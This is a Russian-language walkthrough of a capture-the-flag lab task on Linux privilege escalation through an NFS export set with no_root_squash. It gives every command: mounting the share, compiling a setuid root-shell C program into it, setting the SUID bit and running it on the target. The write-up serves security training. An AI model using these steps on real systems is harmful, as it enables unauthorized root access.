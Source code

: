 ## Задание 19
Обнаружение

Linux- виртуальная машина

1. В командной строке введите:  `cat /etc/exports`
2. В выводе обратите внимание, что для экспорта «/tmp» определена опция «no_root_squash».

Эксплуатация Атакующая виртуальная машина

1. Откройте командную строку и введите:  `showmount -e MACHINE_IP`
2. В командной строке введите: `mkdir /tmp/1`
3. В командной строке введите: `mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1`
В командной строке введите:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/xc`
4. В командной строке введите: `gcc /tmp/1/xc -o /tmp/1/x`
5. В командной строке введите: `chmod +s /tmp/1/x`

Linux- виртуальная машина

1. В командной строке введите: `/tmp/x`
2. В командной строке введите: id
Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)